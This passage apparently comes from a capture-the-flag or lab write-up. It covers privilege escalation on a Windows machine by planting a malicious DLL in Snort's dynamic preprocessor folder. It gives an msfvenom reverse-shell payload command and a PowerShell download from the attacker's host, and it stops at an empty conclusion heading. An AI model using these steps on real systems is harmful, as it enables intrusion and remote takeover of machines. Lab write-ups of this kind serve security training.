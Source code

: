 This mechanism of dynamically loading preprocessors provides significant flexibility. But, there's a catch. Since Snort will load these preprocessors without much questioning, someone could sneak in a bad preprocessor – kind of like a rogue app – into the folder where Snort looks for them. This folder is located at `C:\Snort\lib\snort_dynamicpreprocessor`. 



## [](#solving) Step 4 - Privilege escalation
With that in mind, let's create a reverse shell with `msfvenom` to create a malicious dll and upload it to the dynamic preprocessor:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.153 LPORT=4444 -f dll -o sf_shell.dll
```

Now, we open our netcat on port 4444 and download this dll from the `jdoe` user shell we have access to with the following command:

```bash
Invoke-WebRequest -Uri "http://10.10.14.153:1234/sf_shell.dll" -OutFile "C:\Users\jdoe\Desktop\sf_shell.dll"
```

Don't forget to start a Python server on port 1234 in the directory containing the dll shell. After that, we run the following command on `jdoe` shell:

```bash
upload sf_shell.dll c:\snort\lib\snort_dynamicpreprocessor
```

And then we wait...

<img src="../figs/analysis17.png" alt="root shell">

And we got root!


# [](#conclusions)Conclusion
